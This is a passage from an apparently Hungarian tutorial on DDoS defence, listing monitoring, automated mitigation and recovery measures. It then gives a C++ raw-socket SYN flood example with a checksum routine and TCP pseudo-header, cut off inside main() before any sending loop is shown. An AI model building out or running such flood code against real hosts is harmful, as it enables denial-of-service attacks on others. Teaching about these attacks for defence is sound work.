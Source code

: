 1. **Hálózati Monitorozás és Elemzés:** Folyamatos monitorozás a hálózati forgalom szokatlan mintázatai és volumene tekintetében. Az IP források elemzése és a forgalmi csúcsok detektálása.
   
2. **Automatizált Védelmi Megoldások:** Olyan rendszerek telepítése, amelyek automatikus válaszlépéseket hajtanak végre, például forgalom átterelése tisztító szervereken keresztül, időkorlátok beállítása vagy a támadó IP címek blokkolása.

3. **Behatároló és Helyreállító Stratégiák:** Gyors döntéshozatali mechanizmusok és vészhelyzeti tervek kidolgozása, amelyek tartalmazzák a támadások elhárításának és rendszerek gyors helyreállításának eljárásait.

#### Példa Kód C++ nyelven: SYN Flood Támadás

Bár az ilyen jellegű kódok használata engedély nélküli tevékenységek során etikailag és jogilag kifogásolható, a szemléltetés céljából bemutatunk egy példát C++ nyelven egy SYN Flood támadás generálására.

```cpp
#include <iostream>

#include <cstring>
#include <sys/socket.h>

#include <netinet/ip.h>
#include <netinet/tcp.h>

#include <arpa/inet.h>

// PS: Running this code requires root privileges
// And is for educational purposes only

// Checksum function
unsigned short csum(unsigned short *buf, int nwords) {
    unsigned long sum;
    for (sum = 0; nwords > 0; nwords--)
        sum += *buf++;
    sum = (sum >> 16) + (sum & 0xFFFF);
    sum += (sum >> 16);
    return (unsigned short)(~sum);
}

// Pseudo header needed for TCP checksum calculation
struct pseudo_header {
    u_int32_t source_address;
    u_int32_t dest_address;
    u_int8_t placeholder;
    u_int8_t protocol;
    u_int16_t tcp_length;
};

// Example of a SYN Flood attack using raw socket
int main() {
    struct sockaddr_in dest;
    char packet[4096];
    struct ip *ip_header;
    struct tcphdr *tcp_header;
    struct pseudo_header psh;
   
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
    if (sock < 0) {
        perror("Socket error");
        exit(EXIT_FAILURE);
    }

    dest.sin_family = AF_INET;
    dest.sin_port = htons(80); // HTTP port (example)
```